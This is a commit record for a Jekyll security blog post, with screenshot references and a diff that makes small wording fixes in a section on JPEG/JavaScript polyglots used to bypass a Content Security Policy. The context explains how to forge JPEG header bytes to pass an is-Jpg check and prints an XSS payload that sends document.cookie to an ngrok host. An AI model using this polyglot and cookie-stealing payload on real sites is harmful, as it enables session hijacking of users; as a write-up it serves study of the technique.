

Before and after one commit to J0LGER/bloghub, a Jekyll site: the page built from _posts/2022-07-14-CSPoly.md, in a window 1280 px wide and 900 px high, scrolled down 6973 px. Shown: the whole window, without its empty margins (298-981 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Update 2022-07-14-CSPoly.md

````diff
--- a/_posts/2022-07-14-CSPoly.md
+++ b/_posts/2022-07-14-CSPoly.md
@@ -226,9 +226,9 @@ async uploadImage(file) {
 The previous snippet makes usage of **is-Jpg** module with a non-vulnerable version within the **package.json** file, content is inspected and validated to be a valid .jpg file, the main weakness here is the absence of extension validation, meaning we can upload an avatar with .js extension, then bypass the CSP policy through importing the uploaded file, but first, we have to bypass the is-Jpg check.
 
 ## Polyglots Power
-A research by Portswigger was published back in 2016, demonstating how Javascript can be injected in the structure of JPEG file, creating a valid Javascript and JPEG file at the same time, named as a polyglot, time to grasp your mind.
+A research by Portswigger was published back in 2016, demonstating how Javascript can be injected in the structure of JPEG file, creating a valid Javascript and JPEG file at the same time, named as a polyglot, now roll up your sleeves, time to grasp your mind.
 
-We will first make use of the first four bytes of `FF D8 FF E0` (JPEG magic bytes) as if they're a Non-ASCII JavaScript variable, The following two bytes specify the length of the JPEG header, if we modified it to `0x2F 0x2A`, which accordingly represents `\*`, a multi-line JS comment, we now have a non-ascii variable followed by a multi-line comment, the rest of the header will be padded with nulls to fill the length of `0x2F 0x2A`, moving forward, we can create a JPEG comment by injecting `0xFF 0xFE`, the next two bytes also represents the JPEG comment length, following with the JPEG content itself, where we will be injecting out JS payload, the payload will start with a closing comment to close the comment created previously, then an assignment to the non-ascii variable, beside we can put whatever we want, but we have to open another multi-line comment to comment out all the remaining raw image data, the JS payload will look like:
+We will first make use of the first four bytes of `FF D8 FF E0` (JPEG magic bytes) as if they're a Non-ASCII JavaScript variable, The following two bytes specify the length of the JPEG header, if we modified it to `0x2F 0x2A`, which accordingly represents `\*`, a multi-line JS comment, we now have a non-ascii variable followed by a multi-line comment, the rest of the header will be padded with nulls to fill the length of `0x2F 0x2A`, moving forward, we can create a JPEG comment by injecting `0xFF 0xFE`, the next two bytes also represents the JPEG comment length, following with the JPEG content itself, where we will be injecting our JS payload, the payload will start with a closing comment to close the comment created previously, then an assignment to the non-ascii variable, beside we can put whatever we want, but we have to open another multi-line comment to comment out all the remaining raw image data, the JS payload will look like:
 
 ```javascript
 */=1;document.location="http://fec1-188-247-73-48.ngrok.io/?"+document.cookie;/*
````
Also changed, not shown: other parts of _posts/2022-07-14-CSPoly.md (+2 -2 lines).
